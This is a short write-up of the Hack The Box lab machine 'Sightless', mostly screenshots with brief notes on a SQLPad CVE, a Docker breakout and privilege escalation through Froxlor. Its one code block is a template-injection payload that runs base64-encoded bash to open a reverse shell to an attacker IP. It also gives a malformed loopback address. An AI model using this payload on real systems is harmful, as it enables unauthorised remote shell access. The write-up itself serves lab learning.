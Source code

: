 ```yaml
---
title: Sightless
tags:
  - htb
  - easy
---
```


If you scan with gobuster vhost, you will not get any results, but if you navigate through the website, you will see a button that wants to redirect you directly to a subdomain.

![](https://miro.medium.com/v2/resize:fit:700/1*t2zzEeMYN8raBYmFbk3ZPw.png)

![](https://miro.medium.com/v2/resize:fit:700/1*dtK8xzqeijpNmi3sQYiJfw.png)

## SQLPad CVE

![](https://miro.medium.com/v2/resize:fit:700/1*2h0LV0w3TuWIRXF9oZelBw.png)

![](https://miro.medium.com/v2/resize:fit:700/1*fFY2bKsmL6w2Z45f83DujA.png)

![](https://miro.medium.com/v2/resize:fit:700/1*jtwTlDm4Enuki1ZhuaIoYA.png)

![](https://miro.medium.com/v2/resize:fit:700/1*BROJylg-3NyQWpdBER0l3A.png)

![](https://miro.medium.com/v2/resize:fit:700/1*EbYqAWBQ2fAKm7HebMdQgw.png)

```
{{ process.mainModule.require(‘child_process’).exec(‘echo -n  
> c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTAzLzQ0NDQgMD4mMQ== | base64 -d | bash’) }}
```

![](https://miro.medium.com/v2/resize:fit:700/1*k6YA-J65hIpuvLUx7g2hWA.png)

We are root users, yes, but we are inside the Docker container. At first you may think that you need to do a Docker Breakout. It definitely is, but you should think as simple as possible.

![](https://miro.medium.com/v2/resize:fit:700/1*ffGVPsnyhCdAhT6WDv2zoA.png)

## Docker Breakout (!)

![](https://miro.medium.com/v2/resize:fit:700/1*nGIvYMSmDBwRV-P-HRcn2g.png)

![](https://miro.medium.com/v2/resize:fit:700/1*Eqi0sTnOyrNMKwCZrVL5YQ.png)

## Lateral Movement

![](https://miro.medium.com/v2/resize:fit:700/1*HLVOvoajPE5hsbmKCCVd7A.png)

![](https://miro.medium.com/v2/resize:fit:700/1*4m0HF_NTk2_tkif7w4YZqw.png)

![](https://miro.medium.com/v2/resize:fit:700/1*Zw945mMGBhfQ3W8ebqu0Bw.png)

We accessed the Froxlor service at 127.0.0.0.1:8080 from our local address, but we do not have a username and password to log in.

![](https://miro.medium.com/v2/resize:fit:700/1*hEi1xH3q3y_Arrv_DpBYkg.png)

![](https://miro.medium.com/v2/resize:fit:700/1*o5RpOu_lrRMQOvQ89-NK8w.png)

![](https://miro.medium.com/v2/resize:fit:700/1*yFTitL7_ElMcoXFwvD6iYQ.png)

Then, when you examin the requests sent by pressing the Inspect button, you will have the password for the admin user.
# Privilege Esc.

![](https://miro.medium.com/v2/resize:fit:700/1*YyaOoor_aHqEJdNgsyEGpw.png)

![](https://miro.medium.com/v2/resize:fit:700/1*n-9Kl33ZmXYwtzquRmWerw.png)

![](https://miro.medium.com/v2/resize:fit:700/1*teW24sYLXJRLRVfekYljpg.png)

![](https://miro.medium.com/v2/resize:fit:700/1*pPUD8KQ-Y8QgF7zhay8Mdg.png)

![](https://miro.medium.com/v2/resize:fit:700/1*wsXy9BPkGZ8tMHE7HwlI7g.png)

![](https://miro.medium.com/v2/resize:fit:700/1*dtoGwD-SLMHz5_T_zsnwEA.png)

![](https://miro.medium.com/v2/resize:fit:700/1*QDU-T45iW_FjsH2srsL7PA.png)
